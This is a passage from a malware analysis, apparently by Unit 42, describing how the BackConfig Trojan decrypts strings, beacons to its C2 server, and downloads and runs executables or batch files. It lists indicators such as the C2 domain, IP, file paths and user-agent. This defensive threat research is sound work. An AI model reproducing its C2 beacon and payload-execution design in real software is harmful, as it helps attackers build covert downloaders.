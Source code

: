 The purpose of this malware is to allow the actors to download and execute an executable file, as well as download and run batch files to run commands on the end system.
This sample has a custom "decryption" routine that subtracts six from each character. The following strings are decrypted using this method:



linkrequest[.]live
\\Adobe\\Driver\\dwg\\pid.txt
\\Adobe\\Driver\\dwg\\
\\Adobe\\Driver\\dwg\\wuaupdt.exe



The Trojan reads the following file to use in the URL of the C2 beacon. If the file does not exist, the executable will exit without performing any further activities. The pid.txt file is created during the earlier delivery and installation phases starting with the weaponized Excel document. More information about this setup process is covered later in the delivery section. As previously mentioned, this behavior makes an automated analysis of the individual executable payload component harder.



%USERPROFILE%\Adobe\Driver\dwg\pid.txt



The C2 channel uses HTTPS thanks to the INTERNET_FLAG_SECURE flag used when calling the HttpOpenRequestA function. The beacon HTTP request will look like the following:
GET /orderme/[contents of pid.txt file] HTTP/1.1
User-Agent: Mozilla/5.0 (Windows NT 6.1; WOW64; rv:52.0) Gecko/20100101 Firefox/52.0 @/NEW
Host: linkrequest[.]live [resolving to 23.106.123[.]87]
The Trojan will look for the following field and values within the HTTP response header:



"Content-Type: application"
"Content-Type: xDvsds"
"Content-Type: Bw11eW"



If the content-type field contains a value of application, the Trojan will extract a filename from the HTTP response headers between the string filename and Content-Transfer-Encoding. It will use this filename to create a file in the %USERPROFILE%\Adobe\Driver\dwg\ folder, which it will write the data in the HTTP response to. Based on the other two Content-Types, we believe the filename provided will be either "wuaupdt.exe" or test.bat.
If the content-type field has a value of xDvsds, the Trojan will attempt to execute the following file using ShellExecuteA and the "open" method:
%USERPROFILE%\Adobe\Driver\dwg\wuaupdt.exe
If the content-type field has a value of Bw11eW, the Trojan will attempt to execute the following file using ShellExecuteA and the "open" method:
%USERPROFILE%\Adobe\Driver\dwg\test.bat
At the time of writing, the C2 appeared inoperational and no further payloads were seen. We believe that the resultant wuaupdt.exe file would then provide further capabilities to steal information, log keystrokes, and provide the ability to run additional commands either directly or via additional plugins which it would download, as documented by the Qihoo 360 Threat Intelligence group in their investigation of prior campaigns here.
Unit 42 has conducted cursory binary diffing for many of the BackConfig executable files and did not find any non-library function overlaps that would suggest that the payloads are based on the YTY or EHDev frameworks as mentioned here and here.
PE Metadata
The malware sample contains some interesting static artifacts including self-signed digital certificates used to sign the executable purporting to be software from the Foxit Software Incorporated company based in California. It is not known why the actors picked this company -- and others listed in Table 1 below -- to impersonate but, as previously mentioned, their use of filenames and URLs makes their payloads appear benign and trustworthy.
Using this meta-data, together with information gleaned from infrastructure investigation, Unit 42 were able to pivot around on AutoFocus data to find additional BackConfig PE executable samples. Those samples from the last 12 months are listed in Tables 1 and 2 below.
